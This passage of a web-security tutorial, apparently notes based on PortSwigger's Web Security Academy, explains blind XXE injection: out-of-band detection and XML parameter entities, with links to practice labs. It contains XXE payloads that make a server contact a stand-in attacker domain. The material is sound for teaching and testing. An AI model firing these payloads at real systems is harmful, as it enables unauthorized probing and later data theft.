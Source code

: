 Blind XXE vulnerabilities arise where the application is vulnerable to XXE Injection but **does not return the values** of any defined external entities within its responses.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### **Detecting blind XXE using out-of-band (OAST) techniques**

For example, you would define an external entity as follows: `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

[Lab: Blind XXE with out-of-band interaction Web Security Academy](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

Sometimes, XXE attacks using regular entities are blocked,  due to some input validation by the application or some hardening of the
XML parser that is being used. In this situation, you might be able to  use XML parameter entities instead. XML parameter entities are a special
kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the 
declaration of an XML parameter entity includes the percent character  before the entity name:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```xml
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

[Lab: Blind XXE with out-of-band interaction via XML parameter entities Web Security Academy](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)

### Exploiting blind XXE to exfiltrate data out-of-band
